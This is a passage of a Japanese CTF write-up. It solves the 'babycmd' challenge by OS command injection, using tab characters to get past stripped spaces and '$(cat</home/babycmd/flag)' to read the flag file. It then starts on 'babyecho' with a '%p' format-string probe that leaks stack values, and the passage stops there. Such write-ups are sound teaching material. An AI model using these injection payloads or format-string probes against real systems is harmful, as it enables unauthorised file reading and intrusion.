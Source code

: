 引数に渡される文字列に含まれるスペースが削られるようです。タブで代用してみました。

```
Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host A$(ls    /home/babycmd)A
Host Ababycmd
flagA not found: 3(NXDOMAIN)
Commands: ping, dig, host, exit
```


ホームディレクトリにbabycmdとflagというファイルがあることがわかりました。
catのリダイレクトでflagを抜いてしまいます。

```
Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
:  host A$(cat</home/babycmd/flag)A
Host AThe flag is: Pretty easy eh!!~ Now let's try something hArd3r, shallwe??A not found: 3(NXDOMAIN)
Commands: ping, dig, host, exit
:
```

FLAG:`Pretty easy eh!!~ Now let's try something hArd3r, shallwe??`

OSコマンドインジェクションに関連する脆弱性対策をIPAが公開してくれているので、CTFのためにも自衛のためにも一度目を通しておくことをお勧めします。

[IPA ISEC　セキュア・プログラミング講座：C/C++言語編　第10章 著名な脆弱性対策：コマンド注入攻撃対策](http://www.ipa.go.jp/security/awareness/vendor/programmingv2/contents/c909.html)

# Babyecho

## 問題文

    babyecho_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me:3232

    [Download](http://downloads.notmalware.ru/babyecho_eb11fdf6e40236b1a37b7974c53b6c3d)

## 問題
```
Reading 13 bytes
```

標準入力で待ち受けしているので、文字列を送ると標準出力に<del>そのまま</del>*的確に*返してくれるプログラムにアクセスしてflagを得る問題です。


```
Reading 13 bytes
%p.%p.%p.%p
0xd.0xa.(nil).0xd
Reading 13 bytes
0123456789abcdef
0123456789ab
Reading 13 bytes
def
Reading 13 bytes
```
